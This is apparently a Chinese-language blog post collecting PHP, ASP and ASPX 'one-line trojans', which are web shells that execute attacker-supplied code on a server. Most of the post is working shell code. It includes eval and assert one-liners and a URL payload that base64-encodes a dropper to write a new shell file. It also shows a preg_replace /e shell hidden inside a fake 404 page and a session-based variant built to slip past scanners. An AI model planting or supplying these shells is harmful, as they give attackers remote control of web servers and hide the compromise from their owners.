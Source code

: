 ﻿---
layout:     post
title:      PHP一句话木马整理
subtitle:   
date:       2019-04-03
author:     BY songjiu
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - 漏洞
---

>如果我们通过客户端向服务器发送被执行内容，那么就会让服务器执行我们发送的脚本，挂马就实现了。想尽办法给目标网站插入这么一段会被储存起来的语句。可以是一个单独的脚本文件文件（.asp 、.php、.aspx ），或者是隐藏在某些网页下的文件、代码等。其中的value 就是客户端要发送的内容，然后通过客户端与服务器建立连接，发送控制脚本。

## PHP  
PHP有一些危险的使用方式比如**eval**、**assert**和正则匹配的**e模式**以及**include**函数
```PHP
<?php @eval($_POST['pass']);?>
```
通过构建php表单pass，执行里面的语句
```PHP
 < ?php assert ($_POST(value));?>
```
bool assert ( mixed $assertion [, Throwable $exception ] )
assert() 会检查指定的 assertion 并在结果为 FALSE 时采取适当的行动。
如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。

  
### 变形
来自[https://my.oschina.net/programs/blog/1649544](https://my.oschina.net/programs/blog/1649544)
```PHP
<?php $_GET['a']($_POST['b'])?>

?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};
```
通过对GET请求的URL构造而形成利用，左括号和右括号是URL编码，解码回来如下：  
```PHP
?a=assert&b=${fputs(fopen(base64_decode(Yy5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x))};
```
PHP接收到GET请求后相当于执行一个assert函数，并把b作为assert的参数。b里面使用略php的base64解码函数，把部分信息通过base64编码而绕过扫描，解码后如下：
```PHP
?a=assert&b=${fputs(fopen(c.php,w),<?php @eval($_POST[c]); ?>1)};
```
### 利用e模式
正则表达式中的/e模式的作用是将替换串中的内容当作代码来执行，/e模式是php语言才有的，除此之外还有/i（不区分大小写）等。比如：
```PHP
$precision = 2;
$subject = '看完《php从入门到精通》需要33.123456小时';
$str = preg_replace('/([\d|\.]+)/e', 'round($1, '.$precision.')', $subject);
echo $str;
//运行结果为：看完《php从入门到精通》需要33.12小时。即：33.123456被替换为round(33.123456, $precision)。
```
其中$1表示第一次匹配成功的部分。 
可以利用这个写到404页面。
```PHP
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
	<head>
		<title>404 Not Found</title>
	</head>
	<body>
		<h1>Not Found</h1>
		<p>The requested URL was not found on this server.</p>
	</body>
</html>
<?php
	@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
	header('HTTP/1.1 404 Not Found');
?>
```
### 利用session
利用$_SEESION变量来绕过扫描，将$_POST['code']赋值给$_SESSION['theCode']，然后eval执行SESSION的内容。eis分别为eis三种模式，e仍然为执行模式。  
```PHP
<?php

    session_start();
    $_POST['code'] && $_SESSION['theCode'] = trim($_POST['code']);
    $_SESSION['theCode'] && preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'theCode\']))','a');

```
## 其他

```PHP
/*asp一句话木马*/
<%execute(request("value"))%>

/*aspx一句话木马*/
<%@ Page Language="Jscript"%>
<%eval(Request.Item["value"])%>

```